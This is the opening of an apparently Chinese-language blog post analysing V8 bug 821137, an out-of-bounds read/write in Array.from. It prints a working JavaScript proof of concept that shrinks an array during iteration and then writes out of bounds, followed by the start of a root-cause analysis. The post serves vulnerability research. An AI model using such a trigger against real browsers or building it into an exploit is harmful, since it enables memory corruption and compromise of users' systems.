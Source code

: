 ```yaml
---
layout: post
title:  "V8漏洞分析 - BUG-821137 Array.from OOB"
date:   2019-04-16 18:00:00 +520
categories: Browser_Security
tags: [JavaScriptEngine, V8, OutOfBound, SideEffect]
---
```


Issue 821137: OOB read/write using Array.prototype.from
- https://bugs.chromium.org/p/chromium/issues/detail?id=821137

Poc

```javascript
let oobArray = [];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
    {
        counter : 0,
        max : 1024 * 1024 * 8,
        next() {
            let result = this.counter++;
            if (this.counter == this.max) {
                oobArray.length = 0;
                return {done: true};
            } else {
                return {value: result, done: false};
            }
        }
    }
) });
oobArray[oobArray.length - 1] = 0x41414141;
```

搞V8也有段时间了，网上的资料说多不多，说少也不少，很多很基础的东西我都是尽量自己去搜，我觉得搞V8的一个很关键的点在于如何把Poc在V8里的**执行过程**对应上

今天我们拿一个品相不错的洞来分析
- https://chromium.googlesource.com/v8/v8.git/+/b5da57a06de8791693c248b7aafc734861a3785d%5E%21/

拿到parent的hash

![IMAGE](/assets/resources/40C2FF1E7B4E6325CBB12C69AC01B976.jpg)

